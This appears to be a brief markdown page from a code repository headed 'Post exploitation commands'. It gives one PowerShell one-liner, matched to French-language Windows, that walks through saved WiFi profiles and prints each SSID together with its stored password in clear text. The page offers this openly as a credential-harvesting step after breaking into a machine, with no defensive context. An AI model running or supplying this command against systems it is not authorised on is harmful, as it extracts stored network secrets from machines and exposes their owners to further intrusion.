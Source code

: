 <h1>Post exploitation commands</h1>
<h2>Show all WiFi SSID with associated password saved</h2>
French system :

```Powershell
netsh wlan show profiles | Select-String "\s+:\s+(.*)" | ForEach-Object { netsh wlan show profile name="$($_.Matches.Groups[1].Value)" key=clear | Select-String -Pattern "Nom du SSID|Contenu de la clé" | ForEach-Object { $_.ToString().Trim() } | Format-List}
```

